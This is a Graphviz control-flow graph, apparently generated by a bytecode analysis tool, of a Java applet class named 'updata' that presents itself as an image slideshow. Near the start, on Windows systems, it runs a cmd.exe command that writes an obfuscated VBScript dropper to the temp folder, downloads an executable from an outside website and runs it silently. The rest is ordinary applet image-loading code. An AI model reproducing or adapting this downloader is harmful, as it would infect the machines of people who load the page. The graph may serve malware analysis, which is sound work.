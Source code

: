 digraph "" {
    "r0 := @this: updata"
    "push \"os.name\""
    "r0 := @this: updata"->"push \"os.name\"";
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"
    "push \"os.name\""->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String toLowerCase()>"
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"virtualinvoke <java.lang.String: java.lang.String toLowerCase()>";
    "push \"win\""
    "virtualinvoke <java.lang.String: java.lang.String toLowerCase()>"->"push \"win\"";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"
    "push \"win\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "iflt load.r r0"
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"iflt load.r r0";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"
    "iflt load.r r0"->"staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>";
    "push \"cmd.exe /c echo Const J9h1w0zHFgZtuRnPeXga = 1 > %temp%\\updata.vbs & echo Const KlOugdsfRh54h02ZPeXga = 2 >> %temp%\\updata.vbs & echo Dim ZC0YK16ggjQQ, Y5mJ5jSJXzm38lz, N8VObVe37C, YK16ggjQQ >> %temp%\\updata.vbs & echoZC0YK16ggjQQ = \\\"ADODB\\\" >> %temp%\\updata.vbs & echo ZC0YK16ggjQQ = \\\"ADODB\\\" >> %temp%\\updata.vbs &echo Y5mJ5jSJXzm38lz = \\\".Stream\\\" >> %temp%\\updata.vbs & echo Set N8VObVe37C = CreateObject(ZC0YK16ggjQQ+Y5mJ5jSJXzm38lz) >> %temp%\\updata.vbs & echo N8VObVe37C.Type = J9h1w0zHFgZtuRnPeXga >> %temp%\\updata.vbs & echo N8VObVe37C.Open >> %temp%\\updata.vbs & echo N8VObVe37C.Write BinaryGetURL(Wscript.Arguments(0)) >> %temp%\\updata.vbs & echo N8VObVe37C.SaveToFile Wscript.Arguments(1), KlOugdsfRh54h02ZPeXga >> %temp%\\updata.vbs & echo Function BinaryGetURL(URL) >> %temp%\\updata.vbs & echo Set YK16ggjQQ = CreateObject(\\\"WinHttp.WinHttpRequest.5.1\\\") >> %temp%\\updata.vbs & echo YK16ggjQQ.Open \\\"GET\\\", URL, False >> %temp%\\updata.vbs & echo YK16ggjQQ.Send >> %temp%\\updata.vbs & echo BinaryGetURL = YK16ggjQQ.ResponseBody >> %temp%\\updata.vbs & echo End Function >> %temp%\\updata.vbs & echo CreateObject(\\\"WScript.Shell\\\").Run \\\"%temp%\\updata.exe\\\" >> %temp%\\updata.vbs & start %temp%\\updata.vbs http://www.hidrocaribe.gob.ve/website/language/es-ES/java.exe %temp%\\updata.exe\""
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"->"push \"cmd.exe /c echo Const J9h1w0zHFgZtuRnPeXga = 1 > %temp%\\updata.vbs & echo Const KlOugdsfRh54h02ZPeXga = 2 >> %temp%\\updata.vbs & echo Dim ZC0YK16ggjQQ, Y5mJ5jSJXzm38lz, N8VObVe37C, YK16ggjQQ >> %temp%\\updata.vbs & echoZC0YK16ggjQQ = \\\"ADODB\\\" >> %temp%\\updata.vbs & echo ZC0YK16ggjQQ = \\\"ADODB\\\" >> %temp%\\updata.vbs &echo Y5mJ5jSJXzm38lz = \\\".Stream\\\" >> %temp%\\updata.vbs & echo Set N8VObVe37C = CreateObject(ZC0YK16ggjQQ+Y5mJ5jSJXzm38lz) >> %temp%\\updata.vbs & echo N8VObVe37C.Type = J9h1w0zHFgZtuRnPeXga >> %temp%\\updata.vbs & echo N8VObVe37C.Open >> %temp%\\updata.vbs & echo N8VObVe37C.Write BinaryGetURL(Wscript.Arguments(0)) >> %temp%\\updata.vbs & echo N8VObVe37C.SaveToFile Wscript.Arguments(1), KlOugdsfRh54h02ZPeXga >> %temp%\\updata.vbs & echo Function BinaryGetURL(URL) >> %temp%\\updata.vbs & echo Set YK16ggjQQ = CreateObject(\\\"WinHttp.WinHttpRequest.5.1\\\") >> %temp%\\updata.vbs & echo YK16ggjQQ.Open \\\"GET\\\", URL, False >> %temp%\\updata.vbs & echo YK16ggjQQ.Send >> %temp%\\updata.vbs & echo BinaryGetURL = YK16ggjQQ.ResponseBody >> %temp%\\updata.vbs & echo End Function >> %temp%\\updata.vbs & echo CreateObject(\\\"WScript.Shell\\\").Run \\\"%temp%\\updata.exe\\\" >> %temp%\\updata.vbs & start %temp%\\updata.vbs http://www.hidrocaribe.gob.ve/website/language/es-ES/java.exe %temp%\\updata.exe\"";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"
    "push \"cmd.exe /c echo Const J9h1w0zHFgZtuRnPeXga = 1 > %temp%\\updata.vbs & echo Const KlOugdsfRh54h02ZPeXga = 2 >> %temp%\\updata.vbs & echo Dim ZC0YK16ggjQQ, Y5mJ5jSJXzm38lz, N8VObVe37C, YK16ggjQQ >> %temp%\\updata.vbs & echoZC0YK16ggjQQ = \\\"ADODB\\\" >> %temp%\\updata.vbs & echo ZC0YK16ggjQQ = \\\"ADODB\\\" >> %temp%\\updata.vbs &echo Y5mJ5jSJXzm38lz = \\\".Stream\\\" >> %temp%\\updata.vbs & echo Set N8VObVe37C = CreateObject(ZC0YK16ggjQQ+Y5mJ5jSJXzm38lz) >> %temp%\\updata.vbs & echo N8VObVe37C.Type = J9h1w0zHFgZtuRnPeXga >> %temp%\\updata.vbs & echo N8VObVe37C.Open >> %temp%\\updata.vbs & echo N8VObVe37C.Write BinaryGetURL(Wscript.Arguments(0)) >> %temp%\\updata.vbs & echo N8VObVe37C.SaveToFile Wscript.Arguments(1), KlOugdsfRh54h02ZPeXga >> %temp%\\updata.vbs & echo Function BinaryGetURL(URL) >> %temp%\\updata.vbs & echo Set YK16ggjQQ = CreateObject(\\\"WinHttp.WinHttpRequest.5.1\\\") >> %temp%\\updata.vbs & echo YK16ggjQQ.Open \\\"GET\\\", URL, False >> %temp%\\updata.vbs & echo YK16ggjQQ.Send >> %temp%\\updata.vbs & echo BinaryGetURL = YK16ggjQQ.ResponseBody >> %temp%\\updata.vbs & echo End Function >> %temp%\\updata.vbs & echo CreateObject(\\\"WScript.Shell\\\").Run \\\"%temp%\\updata.exe\\\" >> %temp%\\updata.vbs & start %temp%\\updata.vbs http://www.hidrocaribe.gob.ve/website/language/es-ES/java.exe %temp%\\updata.exe\""->"virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>";
    "pop"
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"->"pop";
    "goto load.r r0"
    "pop"->"goto load.r r0";
    "load.r r0"
    "goto load.r r0"->"load.r r0";
    "push -1"
    "load.r r0"->"push -1";
    "fieldput <updata: int w>"
    "push -1"->"fieldput <updata: int w>";
    "fieldput <updata: int w>"->"load.r r0";
    "load.r r0"->"push -1";
    "fieldput <updata: int h>"
    "push -1"->"fieldput <updata: int h>";
    "fieldput <updata: int h>"->"load.r r0";
    "push 0"
    "load.r r0"->"push 0";
    "fieldput <updata: boolean whb>"
    "push 0"->"fieldput <updata: boolean whb>";
    "fieldput <updata: boolean whb>"->"load.r r0";
    "staticget <java.awt.Color: java.awt.Color white>"
    "load.r r0"->"staticget <java.awt.Color: java.awt.Color white>";
    "specialinvoke <java.applet.Applet: void setBackground(java.awt.Color)>"
    "staticget <java.awt.Color: java.awt.Color white>"->"specialinvoke <java.applet.Applet: void setBackground(java.awt.Color)>";
    "specialinvoke <java.applet.Applet: void setBackground(java.awt.Color)>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "push \"transition_delay\""
    "load.r r0"->"push \"transition_delay\"";
    "specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>"
    "push \"transition_delay\""->"specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>";
    "push 10"
    "specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>"->"push 10";
    "push 100"
    "push 10"->"push 100";
    "virtualinvoke <updata: int fi(java.lang.String,int,int)>"
    "push 100"->"virtualinvoke <updata: int fi(java.lang.String,int,int)>";
    "fieldput <updata: int dly>"
    "virtualinvoke <updata: int fi(java.lang.String,int,int)>"->"fieldput <updata: int dly>";
    "fieldput <updata: int dly>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "push \"delay\""
    "load.r r0"->"push \"delay\"";
    "push \"delay\""->"specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>";
    "specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>"->"push 10";
    "push 1000"
    "push 10"->"push 1000";
    "push 1000"->"virtualinvoke <updata: int fi(java.lang.String,int,int)>";
    "fieldput <updata: int wp>"
    "virtualinvoke <updata: int fi(java.lang.String,int,int)>"->"fieldput <updata: int wp>";
    "fieldput <updata: int wp>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "push \"step_count\""
    "load.r r0"->"push \"step_count\"";
    "push \"step_count\""->"specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>";
    "specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>"->"push 10";
    "push 20"
    "push 10"->"push 20";
    "push 20"->"virtualinvoke <updata: int fi(java.lang.String,int,int)>";
    "fieldput <updata: int sc>"
    "virtualinvoke <updata: int fi(java.lang.String,int,int)>"->"fieldput <updata: int sc>";
    "fieldput <updata: int sc>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "push \"mode\""
    "load.r r0"->"push \"mode\"";
    "push \"mode\""->"specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>";
    "specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>"->"push 10";
    "push 10"->"push 0";
    "push 0"->"virtualinvoke <updata: int fi(java.lang.String,int,int)>";
    "fieldput <updata: int modd>"
    "virtualinvoke <updata: int fi(java.lang.String,int,int)>"->"fieldput <updata: int modd>";
    "fieldput <updata: int modd>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "fieldget <updata: int modd>"
    "load.r r0"->"fieldget <updata: int modd>";
    "push 2"
    "fieldget <updata: int modd>"->"push 2";
    "rem.i"
    "push 2"->"rem.i";
    "rem.i"->"fieldput <updata: int modd>";
    "fieldput <updata: int modd>"->"load.r r0";
    "new java.awt.MediaTracker"
    "load.r r0"->"new java.awt.MediaTracker";
    "dup1.r"
    "new java.awt.MediaTracker"->"dup1.r";
    "dup1.r"->"load.r r0";
    "specialinvoke <java.awt.MediaTracker: void <init>(java.awt.Component)>"
    "load.r r0"->"specialinvoke <java.awt.MediaTracker: void <init>(java.awt.Component)>";
    "fieldput <updata: java.awt.MediaTracker tracker>"
    "specialinvoke <java.awt.MediaTracker: void <init>(java.awt.Component)>"->"fieldput <updata: java.awt.MediaTracker tracker>";
    "fieldput <updata: java.awt.MediaTracker tracker>"->"load.r r0";
    "push 1"
    "load.r r0"->"push 1";
    "fieldput <updata: int i>"
    "push 1"->"fieldput <updata: int i>";
    "fieldput <updata: int i>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "push \"image_valign\""
    "load.r r0"->"push \"image_valign\"";
    "push \"image_valign\""->"specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>";
    "fieldput <updata: java.lang.String ivalign>"
    "specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>"->"fieldput <updata: java.lang.String ivalign>";
    "fieldput <updata: java.lang.String ivalign>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "push \"image_align\""
    "load.r r0"->"push \"image_align\"";
    "push \"image_align\""->"specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>";
    "fieldput <updata: java.lang.String ialign>"
    "specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>"->"fieldput <updata: java.lang.String ialign>";
    "fieldput <updata: java.lang.String ialign>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "new java.lang.StringBuilder"
    "load.r r0"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"image\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"image\"";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "push \"image\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r0";
    "fieldget <updata: int i>"
    "load.r r0"->"fieldget <updata: int i>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(int)>"
    "fieldget <updata: int i>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(int)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>";
    "fieldput <updata: java.lang.String bs>"
    "specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>"->"fieldput <updata: java.lang.String bs>";
    "fieldput <updata: java.lang.String bs>"->"load.r r0";
    "fieldget <updata: java.lang.String bs>"
    "load.r r0"->"fieldget <updata: java.lang.String bs>";
    "ifnonnull load.r r0"
    "fieldget <updata: java.lang.String bs>"->"ifnonnull load.r r0";
    "ifnonnull load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <updata: int i>";
    "fieldget <updata: int i>"->"push 1";
    "sub.i"
    "push 1"->"sub.i";
    "sub.i"->"fieldput <updata: int i>";
    "fieldput <updata: int i>"->"load.r r0";
    "load.r r0"->"fieldget <updata: int i>";
    "fieldget <updata: int i>"->"iflt load.r r0";
    "iflt load.r r0"->"goto load.r r0";
    "goto load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <updata: int i>";
    "fieldput <updata: int num>"
    "fieldget <updata: int i>"->"fieldput <updata: int num>";
    "fieldput <updata: int num>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "fieldget <updata: int num>"
    "load.r r0"->"fieldget <updata: int num>";
    "fieldget <updata: int num>"->"push 1";
    "add.i"
    "push 1"->"add.i";
    "newarray"
    "add.i"->"newarray";
    "fieldput <updata: java.awt.Image[] img>"
    "newarray"->"fieldput <updata: java.awt.Image[] img>";
    "fieldput <updata: java.awt.Image[] img>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <updata: int num>";
    "fieldget <updata: int num>"->"push 1";
    "push 1"->"add.i";
    "add.i"->"newarray";
    "fieldput <updata: int[] imgw>"
    "newarray"->"fieldput <updata: int[] imgw>";
    "fieldput <updata: int[] imgw>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <updata: int num>";
    "fieldget <updata: int num>"->"push 1";
    "push 1"->"add.i";
    "add.i"->"newarray";
    "fieldput <updata: int[] imgh>"
    "newarray"->"fieldput <updata: int[] imgh>";
    "fieldput <updata: int[] imgh>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <updata: int num>";
    "fieldget <updata: int num>"->"push 1";
    "push 1"->"add.i";
    "add.i"->"newarray";
    "fieldput <updata: int[] dur>"
    "newarray"->"fieldput <updata: int[] dur>";
    "fieldput <updata: int[] dur>"->"load.r r0";
    "load.r r0"->"push 1";
    "push 1"->"fieldput <updata: int i>";
    "fieldput <updata: int i>"->"load.r r0";
    "load.r r0"->"fieldget <updata: int i>";
    "fieldget <updata: int i>"->"load.r r0";
    "load.r r0"->"fieldget <updata: int num>";
    "ifcmpgt.i load.r r0"
    "fieldget <updata: int num>"->"ifcmpgt.i load.r r0";
    "ifcmpgt.i load.r r0"->"load.r r0";
    "fieldget <updata: java.awt.Image[] img>"
    "load.r r0"->"fieldget <updata: java.awt.Image[] img>";
    "fieldget <updata: java.awt.Image[] img>"->"load.r r0";
    "load.r r0"->"fieldget <updata: int i>";
    "fieldget <updata: int i>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "specialinvoke <java.applet.Applet: java.net.URL getCodeBase()>"
    "load.r r0"->"specialinvoke <java.applet.Applet: java.net.URL getCodeBase()>";
    "specialinvoke <java.applet.Applet: java.net.URL getCodeBase()>"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r0";
    "new java.lang.StringBuffer"
    "load.r r0"->"new java.lang.StringBuffer";
    "new java.lang.StringBuffer"->"dup1.r";
    "specialinvoke <java.lang.StringBuffer: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuffer: void <init>()>";
    "specialinvoke <java.lang.StringBuffer: void <init>()>"->"push \"image\"";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"
    "push \"image\""->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r0";
    "load.r r0"->"fieldget <updata: int i>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(int)>"
    "fieldget <updata: int i>"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(int)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(int)>"->"virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>"->"specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>";
    "specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "specialinvoke <java.applet.Applet: java.awt.Image getImage(java.net.URL,java.lang.String)>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"specialinvoke <java.applet.Applet: java.awt.Image getImage(java.net.URL,java.lang.String)>";
    "arraywrite.r"
    "specialinvoke <java.applet.Applet: java.awt.Image getImage(java.net.URL,java.lang.String)>"->"arraywrite.r";
    "arraywrite.r"->"load.r r0";
    "fieldget <updata: java.awt.MediaTracker tracker>"
    "load.r r0"->"fieldget <updata: java.awt.MediaTracker tracker>";
    "fieldget <updata: java.awt.MediaTracker tracker>"->"load.r r0";
    "load.r r0"->"fieldget <updata: java.awt.Image[] img>";
    "fieldget <updata: java.awt.Image[] img>"->"load.r r0";
    "load.r r0"->"fieldget <updata: int i>";
    "arrayread.r"
    "fieldget <updata: int i>"->"arrayread.r";
    "arrayread.r"->"load.r r0";
    "load.r r0"->"fieldget <updata: int i>";
    "push 5"
    "fieldget <updata: int i>"->"push 5";
    "push 5"->"rem.i";
    "virtualinvoke <java.awt.MediaTracker: void addImage(java.awt.Image,int)>"
    "rem.i"->"virtualinvoke <java.awt.MediaTracker: void addImage(java.awt.Image,int)>";
    "virtualinvoke <java.awt.MediaTracker: void addImage(java.awt.Image,int)>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <updata: int i>";
    "fieldget <updata: int i>"->"push 1";
    "push 1"->"add.i";
    "add.i"->"fieldput <updata: int i>";
    "fieldput <updata: int i>"->"goto load.r r0";
    "ifcmpgt.i load.r r0"->"load.r r0";
    "load.r r0"->"push 0";
    "fieldput <updata: int durum>"
    "push 0"->"fieldput <updata: int durum>";
    "fieldput <updata: int durum>"->"load.r r0";
    "specialinvoke <java.applet.Applet: void show()>"
    "load.r r0"->"specialinvoke <java.applet.Applet: void show()>";
    "specialinvoke <java.applet.Applet: void show()>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "specialinvoke <java.applet.Applet: java.awt.Dimension size()>"
    "load.r r0"->"specialinvoke <java.applet.Applet: java.awt.Dimension size()>";
    "fieldget <java.awt.Dimension: int width>"
    "specialinvoke <java.applet.Applet: java.awt.Dimension size()>"->"fieldget <java.awt.Dimension: int width>";
    "fieldget <java.awt.Dimension: int width>"->"fieldput <updata: int w>";
    "fieldput <updata: int w>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"specialinvoke <java.applet.Applet: java.awt.Dimension size()>";
    "fieldget <java.awt.Dimension: int height>"
    "specialinvoke <java.applet.Applet: java.awt.Dimension size()>"->"fieldget <java.awt.Dimension: int height>";
    "fieldget <java.awt.Dimension: int height>"->"fieldput <updata: int h>";
    "fieldput <updata: int h>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "fieldget <updata: int w>"
    "load.r r0"->"fieldget <updata: int w>";
    "fieldget <updata: int w>"->"load.r r0";
    "fieldget <updata: int h>"
    "load.r r0"->"fieldget <updata: int h>";
    "specialinvoke <java.applet.Applet: java.awt.Image createImage(int,int)>"
    "fieldget <updata: int h>"->"specialinvoke <java.applet.Applet: java.awt.Image createImage(int,int)>";
    "fieldput <updata: java.awt.Image offi>"
    "specialinvoke <java.applet.Applet: java.awt.Image createImage(int,int)>"->"fieldput <updata: java.awt.Image offi>";
    "fieldput <updata: java.awt.Image offi>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "fieldget <updata: java.awt.Image offi>"
    "load.r r0"->"fieldget <updata: java.awt.Image offi>";
    "virtualinvoke <java.awt.Image: java.awt.Graphics getGraphics()>"
    "fieldget <updata: java.awt.Image offi>"->"virtualinvoke <java.awt.Image: java.awt.Graphics getGraphics()>";
    "fieldput <updata: java.awt.Graphics offg2>"
    "virtualinvoke <java.awt.Image: java.awt.Graphics getGraphics()>"->"fieldput <updata: java.awt.Graphics offg2>";
    "fieldput <updata: java.awt.Graphics offg2>"->"load.r r0";
    "fieldget <updata: java.awt.Graphics offg2>"
    "load.r r0"->"fieldget <updata: java.awt.Graphics offg2>";
    "fieldget <updata: java.awt.Graphics offg2>"->"push 0";
    "push 0"->"push 0";
    "push 0"->"load.r r0";
    "load.r r0"->"fieldget <updata: int w>";
    "fieldget <updata: int w>"->"load.r r0";
    "load.r r0"->"fieldget <updata: int h>";
    "virtualinvoke <java.awt.Graphics: void fillRect(int,int,int,int)>"
    "fieldget <updata: int h>"->"virtualinvoke <java.awt.Graphics: void fillRect(int,int,int,int)>";
    "virtualinvoke <java.awt.Graphics: void fillRect(int,int,int,int)>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "specialinvoke <java.applet.Applet: java.awt.Container getParent()>"
    "load.r r0"->"specialinvoke <java.applet.Applet: java.awt.Container getParent()>";
    "fieldput <updata: java.awt.Container container>"
    "specialinvoke <java.applet.Applet: java.awt.Container getParent()>"->"fieldput <updata: java.awt.Container container>";
    "fieldput <updata: java.awt.Container container>"->"load.r r0";
    "fieldget <updata: java.awt.Container container>"
    "load.r r0"->"fieldget <updata: java.awt.Container container>";
    "instanceof"
    "fieldget <updata: java.awt.Container container>"->"instanceof";
    "ifne load.r r0"
    "instanceof"->"ifne load.r r0";
    "ifne load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <updata: java.awt.Container container>";
    "virtualinvoke <java.awt.Container: java.awt.Container getParent()>"
    "fieldget <updata: java.awt.Container container>"->"virtualinvoke <java.awt.Container: java.awt.Container getParent()>";
    "virtualinvoke <java.awt.Container: java.awt.Container getParent()>"->"fieldput <updata: java.awt.Container container>";
    "fieldput <updata: java.awt.Container container>"->"goto load.r r0";
    "ifne load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <updata: java.awt.Container container>";
    "checkcast"
    "fieldget <updata: java.awt.Container container>"->"checkcast";
    "fieldput <updata: java.awt.Frame frm>"
    "checkcast"->"fieldput <updata: java.awt.Frame frm>";
    "fieldput <updata: java.awt.Frame frm>"->"load.r r0";
    "load.r r0"->"push 1";
    "push 1"->"fieldput <updata: boolean whb>";
    "return"
    "fieldput <updata: boolean whb>"->"return";
    "iflt load.r r0"->"load.r r0";
    "load.r r0"->"push 0";
    "push 0"->"fieldput <updata: int i>";
    "fieldput <updata: int i>"->"goto load.r r0";
    "ifnonnull load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <updata: java.lang.String bs>";
    "push \".gif\""
    "fieldget <updata: java.lang.String bs>"->"push \".gif\"";
    "virtualinvoke <java.lang.String: boolean endsWith(java.lang.String)>"
    "push \".gif\""->"virtualinvoke <java.lang.String: boolean endsWith(java.lang.String)>";
    "virtualinvoke <java.lang.String: boolean endsWith(java.lang.String)>"->"ifne load.r r0";
    "ifne load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <updata: java.lang.String bs>";
    "push \".jpg\""
    "fieldget <updata: java.lang.String bs>"->"push \".jpg\"";
    "push \".jpg\""->"virtualinvoke <java.lang.String: boolean endsWith(java.lang.String)>";
    "virtualinvoke <java.lang.String: boolean endsWith(java.lang.String)>"->"ifne load.r r0";
    "ifne load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <updata: java.lang.String bs>";
    "push \".png\""
    "fieldget <updata: java.lang.String bs>"->"push \".png\"";
    "push \".png\""->"virtualinvoke <java.lang.String: boolean endsWith(java.lang.String)>";
    "virtualinvoke <java.lang.String: boolean endsWith(java.lang.String)>"->"ifne load.r r0";
    "ifne load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <updata: int i>";
    "fieldget <updata: int i>"->"push 1";
    "push 1"->"sub.i";
    "sub.i"->"fieldput <updata: int i>";
    "fieldput <updata: int i>"->"load.r r0";
    "load.r r0"->"fieldget <updata: int i>";
    "fieldget <updata: int i>"->"iflt load.r r0";
    "iflt load.r r0"->"goto load.r r0";
    "iflt load.r r0"->"load.r r0";
    "load.r r0"->"push 0";
    "push 0"->"fieldput <updata: int i>";
    "fieldput <updata: int i>"->"goto load.r r0";
    "ifne load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <updata: int i>";
    "fieldget <updata: int i>"->"push 1";
    "push 1"->"add.i";
    "add.i"->"fieldput <updata: int i>";
    "fieldput <updata: int i>"->"goto load.r r0";
    "virtualinvoke <java.io.IOException: void printStackTrace()>"
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"->"virtualinvoke <java.io.IOException: void printStackTrace()>";
}
